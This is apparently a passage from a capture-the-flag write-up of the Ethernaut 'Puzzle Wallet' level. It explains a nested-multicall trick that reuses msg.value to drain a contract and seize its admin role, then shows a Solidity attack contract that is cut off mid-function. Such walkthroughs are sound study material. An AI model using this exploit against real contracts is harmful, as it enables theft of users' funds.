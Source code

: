 This function is `payable` and allows us to call any function we want, which is good. So we could multicall the `deposit()` function twice, re-using `msg.value` for the second call, thanks to how `delegatecall` works.
Unfortunately, the `depositCalled` boolean prevents exactly this. The `deposit()` function can only be called once. But what if we nest a second `deposit()` call within a second `multicall()`?

To try to illustrate the idea, that would give something like this:

> - multicall(1):
>   > - deposit(0.001 ether)
>   > - multicall(2):
>   >   > - deposit(0.001 ether)

This would effectively bypass the following check `selector == this.deposit.selector`, and our balance would be `0.002 ether` while having only sent `0.001 ether`.

The only thing left is to call the `execute()` function to withdraw our balance and drain the contract at the same time. And we will finally be able to call the `setMaxBalance()` function and override the `PuzzleProxy::admin` address with our wallet address.

## Solution

Let's implement the attack contract:

```javascript
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.20;
pragma experimental ABIEncoderV2;

interface IPuzzleWallet {
    function admin() external view returns (address);
    function proposeNewAdmin(address _newAdmin) external;
    function addToWhitelist(address addr) external;
    function multicall(bytes[] calldata data) external payable;
    function execute(
        address to,
        uint256 value,
        bytes calldata data
    ) external payable;
    function setMaxBalance(uint256 _maxBalance) external;
}

contract Puzzled {
    IPuzzleWallet private immutable puzzleWallet;

    constructor(address _puzzleWallet) payable {
        puzzleWallet = IPuzzleWallet(_puzzleWallet);
    }

    function forgetToDeposit() public payable {
        (bool success, ) = address(this).call{value: 0.001 ether}("");
        require(success, "Eth transfer failed");
    }

    function attack() public {
        puzzleWallet.proposeNewAdmin(address(this));
        puzzleWallet.addToWhitelist(address(this));

        bytes[] memory deposit_data = new bytes[](1);
        deposit_data[0] = abi.encodeWithSignature("deposit()");

        bytes[] memory data = new bytes[](2);
        data[0] = deposit_data[0];
        data[1] = abi.encodeWithSignature("multicall(bytes[])", deposit_data);
        puzzleWallet.multicall{value: 0.001 ether}(data);

```